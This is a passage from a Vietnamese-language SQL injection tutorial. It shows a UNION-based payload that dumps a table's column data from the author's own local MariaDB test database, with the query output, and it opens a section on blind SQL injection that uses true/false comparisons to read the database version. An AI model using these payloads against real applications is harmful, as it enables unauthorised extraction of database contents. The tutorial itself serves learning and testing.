     

- *Dump data* của *column* với

  - Payload

    ```mysql
    SELECT `2` FROM (select 1,2 UNION SELECT * FROM menu)xssuser
    ```

    ```mysql
    MariaDB [xssuser]> SELECT `2` FROM (select 1,2 UNION SELECT * FROM menu)xssuser;
    +--------+
    | 2      |
    +--------+
    | 2      |
    | Menu 2 |
    | Menu 4 |
    | Menu 5 |
    | Menu 6 |
    | Menu 7 |
    | Menu 8 |
    | asdf   |
    | kaito  |
    +--------+
    9 rows in set (0.01 sec)
    ```

  - Với *menu* là *table* và *xssuser* là *database*

---

### 7. Mysql Blind

- Mysql Blind được áp dụng khi *server* không trả về kết quả chính xác cho ta, nhưng vẫn trả về 1 giá trị nào đó

- Sau đây mình sẽ sử dụng 1 vài hàm để lấy ra *version* của *mysql* dựa vào kỹ thuật *true or false*

- Nếu cả 2 mệnh đề đều đúng thì sẽ in chạy *query* để in ra kết quả, 1 mệnh đề đúng 1 mệnh đề sai sẽ không in ra gì cả

- Đa số những hàm này đều lấy ra ký tự trong *database* để so sánh với ký tự mà ta đưa ra

- *Version mysql* của mình là 

  ```mysql
  MariaDB [xssuser]> select version();
  +----------------------------------+
  | version()                        |
  +----------------------------------+
  | 10.1.41-MariaDB-0ubuntu0.18.04.1 |
  +----------------------------------+
  1 row in set (0.00 sec)
  ```
